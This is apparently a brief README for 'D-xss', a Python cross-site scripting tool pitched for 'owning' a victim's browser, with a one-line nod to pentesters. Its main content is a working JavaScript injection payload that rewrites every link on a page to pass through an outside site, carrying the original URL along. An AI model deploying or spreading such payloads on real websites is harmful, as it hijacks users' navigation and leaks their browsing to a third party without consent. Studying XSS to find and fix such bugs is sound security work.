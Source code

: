 # Developer-XSS
Developers xss is named as D-xss which is our python programming tool that helps to own the victims browser with given payload and can execute malicious javascript  if the site is vulnerable to cross site scripting attack
This tool helps the pentester or developer for finding the xss bug.

js payload for redirecting :
var anchors = document.getElementsByTagName("a");for (var i = 0; i < anchors.length; i++) {
    anchors[i].href = "http://www.mysite.com/?redirect=" + anchors[i].href
}
